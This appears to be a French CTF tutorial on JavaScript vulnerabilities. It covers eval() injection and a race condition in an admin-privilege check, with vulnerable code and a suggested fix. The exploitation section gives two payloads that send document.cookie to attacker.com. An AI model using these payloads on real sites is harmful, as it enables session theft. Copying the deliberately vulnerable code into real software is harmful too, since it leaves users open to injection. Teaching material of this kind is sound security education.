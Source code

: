 # Vulnérabilités JavaScript pour CTF - Partie 2

## 1. Injection via eval()

### Code Vulnérable
```javascript
function calculateResult() {
    const userFormula = document.getElementById('calculator').value;
    const result = eval(userFormula);
    document.getElementById('result').textContent = result;
}
```

### Explication
L'utilisation de `eval()` sur des entrées utilisateur est extrêmement dangereuse car elle exécute directement du code JavaScript. Un attaquant peut injecter n'importe quel code JavaScript qui sera exécuté dans le contexte de la page.

### Exploitation
```javascript
// Entrée malicieuse dans le champ calculatrice
fetch('https://attacker.com?' + document.cookie)

// Ou plus subtil
(function(){new Image().src='https://attacker.com/'+btoa(document.cookie)})()
```

### Solution Sécurisée
```javascript
function calculateResult() {
    const userFormula = document.getElementById('calculator').value;
    // Utiliser une bibliothèque mathématique sécurisée ou
    // valider strictement l'entrée avec des regex
    if (!/^[0-9+\-*/(). ]*$/.test(userFormula)) {
        throw new Error('Formule invalide');
    }
    const result = Function('return ' + userFormula)();
    document.getElementById('result').textContent = result;
}
```

## 2. Race Condition sur Vérification de Privilèges

### Code Vulnérable
```javascript
let isAdmin = false;

async function checkAdminStatus() {
    const response = await fetch('/api/checkAdmin');
    isAdmin = await response.json();
}

function deleteUser(userId) {
    if (!isAdmin) {
        return console.error('Permission denied');
    }
    fetch(`/api/users/${userId}`, { method: 'DELETE' });
}

// Au chargement
checkAdminStatus();
```